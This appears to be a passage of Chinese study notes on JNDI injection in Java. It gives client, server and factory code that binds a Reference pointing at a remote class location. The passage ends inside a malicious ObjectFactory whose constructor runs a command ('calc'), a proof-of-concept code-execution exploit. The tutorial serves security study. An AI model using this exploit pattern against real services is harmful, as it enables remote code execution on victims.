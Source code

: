 3. JDNI 客户端
    ```java
    public class JNDIRMIClient {
        public static void main(String[] args) throws NamingException, RemoteException {
            InitialContext initialContext = new InitialContext();
            // 从 JNDI 的层面上调用（本质上是调用原生的 RMI）
            IMyRemote myRemoteObj = (IMyRemote) initialContext.lookup("rmi://127.0.0.1:1099/myRemote");
            // myRemoteObj.saySth("JNDI");
        }
    }
    ```

4. 这里 JNDI 的底层还是走的 RMI 底层，因此 RMI 的相关漏洞，JNDI 也存在

### 1.3 `Reference` 类

1. `Reference` 的介绍详见：

    > https://fynch3r.github.io/%E6%90%9E%E6%87%82JNDI/

2. 举个例子，对 JNDI 服务端进行改写：
    ```java
    public static void main(String[] args) throws NamingException, RemoteException {
        // 这里在 RMIServer 中已经创建了注册中心，因此这里不用创建
        InitialContext initialContext = new InitialContext();
        // 然后由于 RMIServer 里面调用了 bind，因此这里要 rebind
        // initialContext.rebind("rmi://localhost:1099/myRemote", new MyRemoteImpl());
        // 这里需要注意，TestRef 这个类不能有包 package
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:7777/");
        initialContext.rebind("rmi://localhost:1099/myRemote", reference);
        // todo 漏洞成因：攻击客户端（目标），创建恶意服务端，指定恶意的 factoryLocation，将其引导到一个有恶意类的地方（这个恶意类和 factory 同名），那么客户端只要访问对应的 rmi 服务，就会触发漏洞。
    }
    ```

3. 给出 `TestRef` 的定义：
    ```java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.io.IOException;
    import java.rmi.RemoteException;
    import java.util.Hashtable;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/12 20:14
     */
    public class TestRef implements ObjectFactory {
        public TestRef() throws IOException {
            Runtime.getRuntime().exec("calc");
        }
    